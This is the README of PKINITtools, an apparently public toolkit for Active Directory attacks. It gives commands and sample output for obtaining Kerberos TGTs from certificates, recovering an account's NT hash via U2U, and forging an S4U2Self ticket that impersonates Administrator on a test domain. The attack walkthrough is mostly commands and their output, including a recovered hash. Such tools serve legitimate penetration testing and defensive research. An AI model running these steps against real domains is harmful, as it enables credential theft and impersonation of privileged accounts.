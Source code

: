 # PKINIT tools

This repository contains some utilities for playing with PKINIT and certificates.  
The tools are built on [minikerberos](https://github.com/skelsec/minikerberos/tree/master/minikerberos) and [impacket](https://github.com/SecureAuthCorp/impacket). Accompanying blogpost with more context: <https://dirkjanm.io/ntlm-relaying-to-ad-certificate-services/>

## Installation
These tools are only compatible with Python 3.5+. Clone the repository from GitHub, install the dependencies and you should be good to go:

```bash
git clone https://github.com/dirkjanm/PKINITtools
pip3 install impacket minikerberos
```

Using a virtualenv for this is recommended.

## Tools

### gettgtpkinit.py
Request a TGT using a PFX file, either as file or as base64 encoded blob, or PEM files for cert+key. This uses Kerberos PKINIT and will output a TGT into the specified ccache. It will also print the AS-REP encryption key which you may need for the getnthash.py tool. Usage example:

```
(PKINITtools) user@localhost:~/PKINITtools$ python gettgtpkinit.py -h
usage: gettgtpkinit.py [-h] [-cert-pfx file] [-pfx-pass password] [-pfx-base64 BASE64] [-cert-pem file] [-key-pem file] [-dc-ip DC_IP] [-v]
                       domain/username ccache

Requests a TGT using Kerberos PKINIT and either a PEM or PFX based certificate+key

positional arguments:
  domain/username     Domain and username in the cert
  ccache              ccache file to store the TGT in

optional arguments:
  -h, --help          show this help message and exit
  -cert-pfx file      PFX file
  -pfx-pass password  PFX file password
  -pfx-base64 BASE64  PFX file as base64 string
  -cert-pem file      Certificate in PEM format
  -key-pem file       Private key file in PEM format
  -dc-ip DC_IP        DC IP or hostname to use as KDC
  -v, --verbose

(PKINITtools) user@localhost:~/PKINITtools$ python gettgtpkinit.py testsegment.local/s2019dc\$ -cert-pfx ~/impacket-py3/cert.pfx -pfx-pass hoi s2019dc.ccache
2021-07-27 21:25:24,299 minikerberos INFO     Loading certificate and key from file
2021-07-27 21:25:24,316 minikerberos INFO     Requesting TGT
2021-07-27 21:25:24,333 minikerberos INFO     AS-REP encryption key (you might need this later):
2021-07-27 21:25:24,333 minikerberos INFO     5769dff44ebeaa5a37b4e9f7005f63063ffd7c198b747ae72021901e8063b0e3
2021-07-27 21:25:24,336 minikerberos INFO     Saved TGT to file
```

### getnthash.py
Use Kerberos U2U to submit a TGS request for yourself. This will include with the PAC which in turn contains the NT hash that you can decrypt with the AS-REP key that was used for your specific TGT. It's magic really. This tool requires a TGT resulting from PKINIT to be in your `KRB5CCNAME` env variable. Usage:

```
(PKINITtools) user@localhost:~/PKINITtools$ python getnthash.py -h
Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

usage: getnthash.py [-h] -key KEY [-dc-ip ip address] [-debug] identity

positional arguments:
  identity           domain/username

optional arguments:
  -h, --help         show this help message and exit
  -key KEY           AS REP key from gettgtpkinit.py
  -dc-ip ip address  IP Address of the domain controller. If ommited it use the domain part (FQDN) specified in the target parameter
  -debug             Turn DEBUG output ON

(PKINITtools) user@localhost:~/PKINITtools$ export KRB5CCNAME=s2019dc.ccache
(PKINITtools) user@localhost:~/PKINITtools$ python getnthash.py testsegment.local/s2019dc\$ -key 5769dff44ebeaa5a37b4e9f7005f63063ffd7c198b747ae72021901e8063b0e3
Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

[*] Using TGT from cache
[*] Requesting ticket to self with PAC
Recovered NT Hash
fa6b130d73311d1be5495f589f9f4571
```

### gets4uticket.py
Uses Kerberos S4U2Self to request a service ticket that is valid on the host for which you've obtained a certificate. This ticket can then be used to interact with the original host. This only requires a TGT for the machine account of this host. This TGT should be in a ccache file that you specify in the `kerberos_connection_url`. The only accepted `kerberos_connection_url` for this example is one containing a ccache file, so for example `kerberos+ccache://domain.local\\victimhostname\$:victimhostname.ccache@kdchostname.domain.local`. The SPN should be a service name on the host you are impersonating, you can't use this for delegation attacks (since it does not implement S4U2Proxy, there are plenty of tools already for that). Usage:

```
(PKINITtools) user@localhost:~/PKINITtools$ python gets4uticket.py -h
usage: gets4uticket.py [-h] [-v] kerberos_connection_url spn targetuser ccache

Gets an S4U2self ticket impersonating given user

positional arguments:
  kerberos_connection_url
                        the kerberos target string in the following format kerberos+ccache://domain\user:file.ccache@<domaincontroller-ip>
  spn                   the service principal in format <service>/<server-hostname>@<domain> Example: cifs/fileserver.test.corp@TEST.corp for a
                        TGS ticket to be used for file access on server "fileserver". IMPORTANT: SERVER'S HOSTNAME MUST BE USED, NOT IP!!!
  targetuser
  ccache                ccache file to store the TGT ticket in

optional arguments:
  -h, --help            show this help message and exit
  -v, --verbose

(PKINITtools) user@localhost:~/PKINITtools$ python gets4uticket.py kerberos+ccache://testsegment.local\\s2019dc\$:s2019dc.ccache@s2016dc.testsegment.local cifs/s2019dc.testsegment.local@testsegment.local Administrator@testsegment.local out.ccache -v
2021-07-28 10:09:13,687 minikerberos INFO     Trying to get SPN with Administrator@testsegment.local for cifs/s2019dc.testsegment.local@testsegment.local
2021-07-28 10:09:13,695 minikerberos INFO     Success!
2021-07-28 10:09:13,696 minikerberos INFO     Done!
```


## License
MIT

## Credits
* [SkelSec](https://twitter.com/skelsec) for [minikerberos](https://github.com/skelsec/minikerberos/tree/master/minikerberos)
* Alberto Solino and the team at SecureAuthCorp for [impacket](https://github.com/SecureAuthCorp/impacket)
* [Mor Rubin](https://twitter.com/rubin_mor) for their first PKINIT implementation in python as part of [AzureADJoinedMachinePTC](https://github.com/morRubin/AzureADJoinedMachinePTC)
* [Benjamin Delpy](https://twitter.com/gentilkiwi) for implementing these things in [kekeo](https://github.com/gentilkiwi/kekeo)
